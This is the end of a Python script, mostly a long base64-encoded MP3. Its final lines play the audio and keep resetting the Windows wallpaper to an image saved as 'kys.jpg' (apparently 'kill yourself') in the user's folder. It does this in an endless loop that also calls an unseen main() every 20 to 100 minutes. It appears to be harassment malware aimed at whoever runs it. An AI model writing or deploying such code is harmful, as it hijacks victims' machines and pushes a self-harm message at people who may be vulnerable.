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'
pygame.mixer.init()
pygame.mixer.music.load(io.BytesIO(base64.b64decode(mp3)))


def set_wallpaper():
    try:
        img = Image.open(f'C:/Users/{getpass.getuser()}/kys.jpg')
    except:
        img = Image.open(io.BytesIO(base64.b64decode(img_data)))
        img.save(f'C:/Users/{getpass.getuser()}/kys.jpg')
    ctypes.windll.user32.SystemParametersInfoW(20, 0, f'C:/Users/{getpass.getuser()}/kys.jpg', 3)



while True:
    set_wallpaper()
    pygame.mixer.music.play()
    th = threading.Thread(main()).start()
    time.sleep(random.randint(20,100)*60)